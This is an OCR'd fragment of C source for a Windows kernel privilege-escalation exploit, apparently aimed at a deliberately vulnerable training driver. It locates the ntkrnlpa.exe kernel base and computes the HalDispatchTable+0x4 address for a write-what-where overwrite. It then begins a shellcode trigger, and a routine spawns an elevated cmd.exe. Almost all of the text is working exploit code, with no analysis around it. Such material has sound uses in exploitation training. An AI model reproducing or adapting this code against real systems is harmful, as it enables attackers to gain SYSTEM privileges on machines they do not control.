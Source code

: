 ```c
	PROCESS_INFORMATION pi = { 0 };
	si.dwFlags = STARTF_USESHOWWINDOW;
	si.wShowWindow = SW_SHOW;
	WCHAR wzFilePath[MAX_PATH] = { L"cmd.exe" };
	BOOL bReturn = CreateProcessW(NULL, wzFilePath, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, (LPSTARTUPINFOW)&si, &pi);
	if (bReturn) CloseHandle(pi.hThread), CloseHandle(pi.hProcess);
}

LPVOID NtkrnlpaBase()
{
	LPVOID lpImageBase[1024];
	DWORD lpcbNeeded;
	TCHAR lpfileName[1024];
	//Retrieves the load address for each device driver in the system
	EnumDeviceDrivers(lpImageBase, sizeof(lpImageBase), &lpcbNeeded);

	for (int i = 0; i < 1024; i++)
	{
		//Retrieves the base name of the specified device driver
		GetDeviceDriverBaseNameA(lpImageBase[i], lpfileName, 48);

		if (!strcmp(lpfileName, "ntkrnlpa.exe"))
		{
			printf("[+]success to get %s\n", lpfileName);
			return lpImageBase[i];
		}
	}
	return NULL;
}

DWORD32 GetHalOffset_4()
{
	// ntkrnlpa.exe in kernel space base address
	PVOID pNtkrnlpaBase = NtkrnlpaBase();

	printf("[+]ntkrnlpa base address is 0x%p\n", pNtkrnlpaBase);

	// ntkrnlpa.exe in user space base address
	HMODULE hUserSpaceBase = LoadLibraryA("ntkrnlpa.exe");//这里修改了一下原Exp
	printf("[-]hUserSpaceBase: 0x%p\n",hUserSpaceBase);
	// HalDispatchTable in user space address
	PVOID pUserSpaceAddress = GetProcAddress(hUserSpaceBase, "HalDispatchTable");
	printf("[-]pUserSpaceAddress: 0x%p\n", pUserSpaceAddress);
	DWORD32 hal_4 = (DWORD32)pNtkrnlpaBase + ((DWORD32)pUserSpaceAddress - (DWORD32)hUserSpaceBase) + 0x4;

	printf("[+]HalDispatchTable+0x4 is 0x%p\n", hal_4);

	return (DWORD32)hal_4;
}

VOID Trigger_shellcode(DWORD32 where, DWORD32 what)
{

	WRITE_WHAT_WHERE exploit;
	DWORD lpbReturn = 0;

	exploit.Where = (PVOID)where;
	exploit.What = (PVOID)&what;
	printf("[+]Write at 0x%p\n", where);
	printf("[+]Write with 0x%p\n", what);

```